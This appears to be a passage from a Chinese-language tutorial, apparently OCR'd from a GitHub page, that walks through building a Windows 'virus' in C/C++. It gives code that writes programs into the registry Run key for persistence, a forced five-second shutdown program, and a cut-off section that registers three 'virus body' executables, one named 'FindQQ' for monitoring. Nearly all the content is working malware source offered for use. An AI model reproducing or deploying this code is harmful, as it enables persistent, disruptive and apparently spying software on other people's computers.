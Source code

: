     int main(){
        HKEY hkey ;//计算机\HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
    	TCHAR p[64] ;
        long ret;
        ret = RegCreateKey(HKEY_CURRENT_USER,_T("Software\\Microsoft\\Windows\\CurrentVersion\\Run"),&hkey);
        if(ret==ERROR_SUCCESS){
            ret = RegSetValueEx(hkey,_T("新加项名称"),0,REG_SZ,(const BYTE*)("d:\\windows\\setup.exe"),21);  // 主
            if(ret==ERROR_SUCCESS){
                // 写入成功
            }else {
                // 写入失败
                cout << "Write filed !" ;
            }
        }else {
            // 注册表打开失败
            cout << "Read error !" << endl ;
        }    
        return 0 ;
    }


## 关机代码
这个功能实现比较简单。

    #include<stdio.h>
    #include<windows.h>
    
    int main(){
        // 五秒关机
        system("shutdown -s -t 5");

        return 0 ;
    }

# 代码

## 注册程序，将病毒主体加入开机自启动
```
#include<stdio.h>
#include<windows.h>
#include<iostream>
#include <tchar.h>
#include<cstdlib>
#include<ctime>
using namespace std ;

int main(){
    HKEY hkey ;//计算机\HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
	TCHAR p[64] ;
    long ret;
    ret = RegCreateKey(HKEY_CURRENT_USER,_T("Software\\Microsoft\\Windows\\CurrentVersion\\Run"),&hkey);
    if(ret==ERROR_SUCCESS){
        ret = RegSetValueEx(hkey,_T("LexBer"),0,REG_SZ,(const BYTE*)("d:\\windows\\setup.exe"),21);  // 主
        ret = RegSetValueEx(hkey,_T("Begin"),0,REG_SZ,(const BYTE*)("d:\\windows\\system32\\bin\\begin.exe"),35); // 主要动作
        ret = RegSetValueEx(hkey,_T("FindQQ"),0,REG_SZ,(const BYTE*)("d:\\windows\\system32\\conf\\find.exe"),35);//监控实时变化
        if(ret==ERROR_SUCCESS){
            // 写入成功
        }else {
```